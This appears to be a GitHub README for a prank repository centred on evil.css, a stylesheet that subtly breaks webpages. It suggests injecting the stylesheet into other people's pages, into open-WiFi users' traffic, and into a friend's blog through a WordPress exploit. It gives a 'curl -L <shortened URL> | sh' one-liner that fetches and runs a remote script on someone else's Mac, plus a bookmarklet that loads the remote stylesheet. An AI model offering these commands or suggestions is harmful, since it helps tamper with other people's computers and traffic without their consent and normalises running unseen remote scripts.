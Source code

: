 Pranks!
=======

A collection of pranks and stuff!

evil.css
--------
Mess with peoples' webpages. Various subtle and not-so-subtle CSS rules that will slowly drive people insane.

### How to use it

Inject it into unsuspecting users' webpages. evil.js was intended to wreak havoc on sites hotlinking JavaScript library files, however hotlinking CSS is far less common. Some other evil ideas:

* Set it as the user stylesheet in a browser (example: discouraging "customers" at retail stores from using the computers to browse Facebook and check their email).
* Inject it into webpages or CSS files served to WiFi leachers on your open access point.
* Exploit this week's WordPress vulnerability and add it to your friend's blog.
* Hack an Internet backbone router and inject it into _everyone's_ webpages.

A script called `evil-safari-mac.sh` is included that automates setting Safari's user stylesheet to the latest version of evil.css. This takes tlrobinson's latest version. Run it on any Mac using Terminal.app with this easy to remember URL:

    curl -L j.mp/lisgar-prank | sh

Uninstall it by deselecting the stylesheet in Safari's preferences, or execute this in a shell:

    curl -L j.mp/lp-remove | sh

### Demo

This bookmarklet will inject the latest version of evil.css into any webpage, just copy and paste into the URL bar and hit enter:

    javascript:(function(d,l){l=d.createElement("link");l.rel="stylesheet";l.href="http://rawgit.com/RetroCraft/Pranks/master/evil.css/evil.css";d.body.appendChild(l)})(document);

Obligatory disclaimer
=====================

All these pranks are purely for entertainment purposes. I'm not responsible for anything you do with any of these, nor do I suggest doing any of the above activities, especially hacking backbone routers.
